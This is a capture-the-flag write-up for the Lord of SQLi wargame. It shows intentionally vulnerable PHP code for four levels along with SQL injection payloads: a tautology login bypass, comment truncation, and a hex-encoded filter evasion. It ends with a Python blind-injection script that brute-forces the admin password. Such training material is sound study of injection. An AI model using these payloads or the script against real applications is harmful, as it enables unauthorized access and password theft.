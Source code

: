 # Lord of Sqli - Writeups

# Level 1 - Gremlin

## Source Code

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

Query :  **select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'**

Here we don’t know the password . So here we just need the query to return 1 row . So we can give 

id as 1 and in the password field we can give ‘ OR ‘1’=’1 .

**Payload** : **id=1&pw=’ OR ‘1’=’1**

# Level 2 - Cobolt

## Source Code

```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

Query : **select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')**

Here we can the id returned from the query should be admin . So we can give id as admin’;— -

**Payload** : **id=admin’;— -**

# Level 3 - Goblin

## Source Code

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

Here quotes are being blocked .

```php
 if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
```

Here it the level will be solved if we fetch the row with id = admin but in the query the id is already set to guest, we cannot change that our injection is at no . So if we give something like -1 OR id=’admin’ . 2 rows will be returned the row with id = guest and id = admin . But here quotes in blocked . But fortunately mysql supports strings to be given in hex without quotes .

**Payload : 1 OR id=0x61646D696E;-- -**

# Level 3 - Orc




```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```


Here we can get the actual password using a blind sql Injection . 



## Exploit Script \


```python
import requests

letters = 'abcdefghijklmnopqrstuvwxyzABCDEFGJIJKLMNOPQRSTUVWXYZ1234567890'

url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php"
h = {
    "Cookie" : 'PHPSESSID=r4j44kshvu8qe7nk1kfaq1bddb'
}
pw = ''
index = 1
for i in range(100):
    q = f"?pw=' or id='admin' and length(pw)={str(i)};-- -"
    r = requests.get(url+q,headers=h)
    if 'Hello admin' in r.text:
        print(f'Length of password : {str(i)}')
        break


while 1:
    for i in letters:
        q = f"?pw='  or id='admin' and pw like '{pw}{i}%';-- -"
        r = requests.get(url+q,headers=h)
        if 'Hello admin' in r.text:
            index += 1
            pw += i
            break
        print(q)
        print(f'Password : {pw}{i}',end='\r')
```

